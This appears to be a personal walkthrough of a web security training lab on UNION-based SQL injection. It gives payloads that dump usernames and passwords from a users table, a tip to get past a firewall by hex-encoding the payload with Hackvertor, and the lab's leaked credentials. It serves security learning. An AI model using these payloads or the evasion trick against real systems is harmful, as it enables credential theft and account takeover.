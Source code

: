 This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a `users` table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.

---

**End Goal:** Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.

**Analysis:**

1. Vulnerability in its stock check feature.

```php
UNION SELECT NULL, NULL
```

```php
UNION SELECT username || '~' || password  FROM users
```

2. Firewall detects the exploit. I can use obfuscation using hackvertor, which can be installed in the BApp store. 
3. Convert the payload to hex entities by using the right click menu, hackvertor is in extensions. 

![[Pasted image 20240903110439.png]]

```php
wiener~c1zw8sro1r4iy5j1s79d
administrator~oob6s5fotc1frms33kby
carlos~s5zo4kq4ohshgerj9iij
```

---

**Completed:** _11:05 2024-09-03_

